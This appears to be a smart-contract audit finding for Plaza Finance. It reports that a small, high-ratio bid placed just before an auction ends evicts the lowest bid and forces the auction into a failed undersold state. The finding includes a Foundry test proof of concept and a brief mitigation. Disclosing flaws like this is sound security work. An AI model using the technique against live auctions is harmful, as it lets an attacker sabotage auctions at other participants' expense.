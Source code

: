 Narrow Macaroon Goblin

High

# Attacker can make auction failure by bidding just before auction end.

### Summary

Just before the auction ends, if the bidCount equals maxBids and the currentCouponAmount matches the totalBuyCouponAmount, the attacker places a small bid with a higher ratio than the lowest bid. In this scenario, the lowest bid is removed, causing the currentCouponAmount to fall below the totalBuyCouponAmount. As a result, the auction transitions to the State.FAILED_UNDERSOLD state.

### Root Cause

https://github.com/sherlock-audit/2024-12-plaza-finance-0xlu7/blob/227f7e7dbd2435cfa1ac940341453c728e323b03/plaza-evm/src/Auction.sol#L157
Before the auction ends, if the new bid's ratio is bigger than lowest, the lowest is removed.
https://github.com/sherlock-audit/2024-12-plaza-finance-0xlu7/blob/227f7e7dbd2435cfa1ac940341453c728e323b03/plaza-evm/src/Auction.sol#L340
In this case, the amount of the new bid is less than the lowest bid, causing the currentCouponAmount to become less than the totalBuyCouponAmount.


### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

Just before the auction ends, if the bidCount equals maxBids and the currentCouponAmount matches the totalBuyCouponAmount, the attacker places a small bid with a higher ratio than the lowest bid. In this scenario, the lowest bid is removed, causing the currentCouponAmount to fall below the totalBuyCouponAmount. As a result, the auction transitions to the State.FAILED_UNDERSOLD state.

### Impact

The auction fails.

### PoC

```solidity
function testAttackScenario() public {
//maxBids  is 2.
//totalBuyCouponAmount is 5000.
    vm.startPrank(alice1); // first
    usdc.mint(alice1, 3000 ether);
    usdc.approve(address(auction), 3000 ether);
    auction.bid(100 ether, 2000 ether); // Legitimate bid
    vm.stopPrank();
    vm.startPrank(alice2); // second
    usdc.mint(alice2, 2000 ether);
    usdc.approve(address(auction), 2000 ether);
    auction.bid(150 ether, 2000 ether); 
    vm.stopPrank();
    vm.warp(block.timestamp + 12 days - 1 hours); //just before ends
    vm.startPrank(attacker); // attacker
    usdc.mint(attacker, 30 ether);
    usdc.approve(address(auction), 30 ether);
    auction.bid(1 ether ,30 ether);
    vm.stopPrank();
    vm.warp(block.timestamp + 1 days); // auction ends
    vm.prank(pool); 
    auction.endAuction();
    assertEq(uint256(auction.state()), uint256(Auction.State.FAILED_UNDERSOLD));
```

### Mitigation

There has to be a validation based on time.